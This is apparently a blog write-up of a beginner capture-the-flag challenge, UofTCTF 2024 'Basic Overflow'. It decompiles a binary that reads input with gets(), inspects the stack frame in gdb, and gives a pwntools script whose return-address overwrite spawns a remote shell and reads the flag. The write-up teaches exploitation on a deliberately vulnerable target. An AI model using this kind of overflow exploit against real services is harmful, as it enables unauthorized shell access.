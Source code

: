 ```yaml
---
layout: post
title: "[UofTCTF 2024] Basic Overflow"
author: edaigle
---
```


## Problem Description
> This challenge is simple. It just gets input, stores it to a buffer. It calls gets to read input, stores the read bytes to a buffer, then exits. What is gets, you ask? Well, it's time you read the manual, no? Author: drec

This is a simple beginner pwn challenge.

## Getting started

We connect with netcat and see the program silently accepts a random input,
not too exciting.

## Decompiling

Downloading the binary and opening with Ghidra, we see it's an x64 ELF.
Ghidra finds two functions:

``` c
  undefined8 main(void) {
        char local_48[64];
        gets(local_48);
        return 0;
  }

  undefined8 shell(void) {
        execve("/bin/sh", (char.**)0x0, (char**)0x0);
        return;
  }
```

So we are reading user input into a 64-byte char array from gets().

## Analysis

As the man page warns you, gets() is dangerous: it does no overflow checking!

Clearly we need to exploit an overflow. Since the only variable here is the
input buffer, we need to overwrite the return address, making the program return
to shell() and giving us a shell.

x64 stores the return address on the stack above the saved base pointer,
parameters, and local variables. Our call to main has no parameters,
so we need to write 64 bytes to get past the input buffer, then write 8 bytes
to get past the saved rbp, then write our 8 byte address.
Disassemble main with gdb:

``` console
(gdb) disas main
Dump of assembler code for function main:
   0x0000000000401156 <+0>:     push   %rbp
   0x0000000000401157 <+1>:     mov    %rsp,%rbp
   0x000000000040115a <+4>:     sub    $0x40,%rsp
   0x000000000040115e <+8>:     lea    -0x40(%rbp),%rax
   0x0000000000401162 <+12>:    mov    %rax,%rdi
   0x0000000000401165 <+15>:    mov    $0x0,%eax
   0x000000000040116a <+20>:    call   0x401040 <gets@plt>
   0x000000000040116f <+25>:    mov    $0x0,%eax
   0x0000000000401174 <+30>:    leave
   0x0000000000401175 <+31>:    ret
End of assembler dump.
(gdb)
```

Set a breakpoint immediately after the call to gets() and inspect the frame:

``` console
(gdb) b *0x40116f
Breakpoint 1 at 0x40116f
(gdb) r
Starting program: /home/kali/ctfs/uoftctf2024/basic-overflow/basic-overflow
hi

Breakpoint 1, 0x000000000040116f in main ()
(gdb) i f
Stack level 0, frame at 0x7fffffffdd90:
 rip = 0x40116f in main; saved rip = 0x7ffff7df26ca
 Arglist at 0x7fffffffdd80, args:
 Locals at 0x7fffffffdd80, Previous frame's sp is 0x7fffffffdd90
 Saved registers:
  rbp at 0x7fffffffdd80, rip at 0x7fffffffdd88
```

So we see the return address (saved rip) is stored at 0x7fffffffdd88. This is
the location where we'll overwrite the address of the shell() function, which
Ghidra tells us is 0x401136. If we had ged, we could search for the "hi" string
we typed and confirm it is at 0x7fffffffdd88 + 72, but we'll just give it a try.

## Attack

Now we have everything we need to write our attack script:

``` python
from pwn import *

target = remote("34.123.15.202", 5000)

payload = b"0"*72
payload += p64(0x401136)

target.sendline(payload)
target.interactive()
```

Time to send it:

``` console
(kali㉿kali)-[~/ctfs/uoftctf2024/basic-overflow]
$ python exploit.py
[+] Opening connection to 34.123.15.202 on port 5000: Done
[*] Switching to interactive mode
$ ls
flag
run
$ cat flag
uoftctf{reading_manuals_is_very_fun}
```

Voila!
